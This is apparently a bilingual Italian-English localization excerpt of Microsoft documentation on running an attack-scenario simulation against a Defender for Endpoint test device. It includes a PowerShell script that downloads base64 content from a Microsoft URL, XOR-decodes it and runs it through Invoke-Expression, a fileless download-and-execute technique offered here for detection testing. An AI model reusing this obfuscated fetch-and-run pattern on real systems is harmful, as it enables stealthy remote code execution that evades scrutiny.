    1. <span data-ttu-id="b4a6c-144">[Attivare Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span><span class="sxs-lookup"><span data-stu-id="b4a6c-144">[Turn on Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="b4a6c-145">In caso di problemi durante l'abilitazione Windows Defender Antivirus, vedere questo [argomento per la risoluzione dei problemi.](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)</span><span class="sxs-lookup"><span data-stu-id="b4a6c-145">If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>

   1. <span data-ttu-id="b4a6c-146">Verificare che il dispositivo di test [sia stato onboarded in Microsoft Defender for Endpoint)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span><span class="sxs-lookup"><span data-stu-id="b4a6c-146">Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="b4a6c-147">Se usi un tenant esistente e implementi i gruppi di dispositivi, crea un gruppo di dispositivi dedicato per il dispositivo di test ed eserciti il push al livello superiore nell'esperienza utente di configurazione.</span><span class="sxs-lookup"><span data-stu-id="b4a6c-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>

## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="b4a6c-148">Eseguire la simulazione dello scenario di attacco</span><span class="sxs-lookup"><span data-stu-id="b4a6c-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="b4a6c-149">Per eseguire la simulazione dello scenario di attacco:</span><span class="sxs-lookup"><span data-stu-id="b4a6c-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="b4a6c-150">Accedere al dispositivo di test con l'account utente di test.</span><span class="sxs-lookup"><span data-stu-id="b4a6c-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="b4a6c-151">Apri una Windows PowerShell nel dispositivo di test.</span><span class="sxs-lookup"><span data-stu-id="b4a6c-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="b4a6c-152">Copiare lo script di simulazione seguente:</span><span class="sxs-lookup"><span data-stu-id="b4a6c-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```
